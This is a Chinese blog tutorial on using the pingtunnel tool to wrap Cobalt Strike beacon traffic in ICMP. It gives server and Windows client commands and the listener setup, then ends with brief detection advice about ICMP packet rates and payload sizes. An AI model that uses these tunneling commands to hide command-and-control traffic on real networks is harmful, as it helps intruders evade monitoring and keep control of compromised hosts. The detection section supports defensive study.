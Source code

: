 ```yaml
---
title: 通过PING tunnel 转换 beacon 流量
date: 2020-05-25 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。






---
```


# 0x00 前言

pingtunnel是把tcp/udp/sock5流量伪装成icmp流量进行转发的工具。用于突破网络封锁，或是绕过WIFI网络的登陆验证，或是在某些网络加快网络传输速度。

项目地址：https://github.com/esrrhs/pingtunnel

适用场景 ：特殊环境下icmp流量允许出网

实现原理：目标机将TCP流量封装成icmp，然后发送给服务端，服务端再从ICMP包解析出正常TCP流量最后发向cobalt strike的listener端口。

![img](https://www.yunzhijia.com/microblog/filesvr/5ecb722a6d67ff5532ecb217)

# 0x01 测试

Linux 服务端配置：

- 关闭linux系统icmp回应功能

```
echo 1 >/proc/sys/net/ipv4/icmp_echo_ignore_all
wget https://github.com/esrrhs/pingtunnel/releases/download/2.2/pingtunnel_linux64.zip
sudo unzip pingtunnel_linux64.zip
sudo ./pingtunnel -type server
```

![img](https://www.yunzhijia.com/microblog/filesvr/5ecb724a6d67ff5532ecb2bc)

Windows 客户端配置：

这里以转发tcp为例

```
pingtunnel.exe -type client -l :4455 -s fe80::20c:29ff:fef6:f345%33 -t fe80::20c:29ff:fef6:f345%33:4455 -tcp 1
```

![img](https://www.yunzhijia.com/microblog/filesvr/5ecb726ca372592e271c89bd)

这里监听两个Listener 其中一个host为本地127.0.0.1 listener作用是让生成出来的agent去连接127.0.0.1:4455，这样流量就能走icmp隧道。

![img](https://www.yunzhijia.com/microblog/filesvr/5ecb72b128011f5157602394)

最终实现结果如下：

![img](https://www.yunzhijia.com/microblog/filesvr/5ecb728e28011f51576022d1)

# 0x02 防御检测

1、检测同一来源 ICMP 数据包的数量。一个正常的 ping 每秒最多只会发送两个数据包，而使用 ICMP隧道的浏览器在同一时间会产生上千个 ICMP 数据包。

2、注意网络中 ICMP 数据包中 payload 大于 64 比特的数据包。

# 0x03 思考

…..